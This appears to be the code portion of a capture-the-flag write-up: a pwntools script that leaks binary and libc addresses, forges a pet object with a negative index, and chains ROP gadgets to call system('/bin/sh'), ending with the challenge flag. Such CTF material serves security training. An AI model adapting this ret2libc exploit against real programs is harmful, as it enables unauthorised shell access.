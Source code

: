 ```python

binary_leak = u64(p.recv(6) + b"\x00\x00")
binary_base = binary_leak - 0x4008
log.info(f"binary leak = {hex(binary_leak)}")
log.info(f"binary base = {hex(binary_base)}")

poprdi   = binary_base + 0x1a13
ret      = poprdi + 1
putsgot  = binary_base + exe.got["puts"]
putsplt  = binary_base + exe.plt["puts"]
backaddr = binary_base + exe.symbols["main"]
payload1 = flat(b"A" * 0x208, poprdi, putsgot, putsplt, backaddr)

sell(0, payload1)

ru(b"reasonable!\n")

libc_leak = u64(p.recv(6) + b"\x00\x00")
libc_base = libc_leak - libc.symbols["puts"]
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

# create fake pet to validate pet deletion
buy("cat", -2, cyclic(536) + p32(0x300)) 

binsh  = libc_base + next(libc.search(b"/bin/sh"))
system = libc_base + libc.symbols["system"]
payload2 = flat(b"B" * 0x208, ret, poprdi, binsh, system)

sell(1, payload2)

p.interactive() 
```
Flag thu được là `KCSC{0h_n0_0ur_p3t_h4s_bug?!????????????????????}`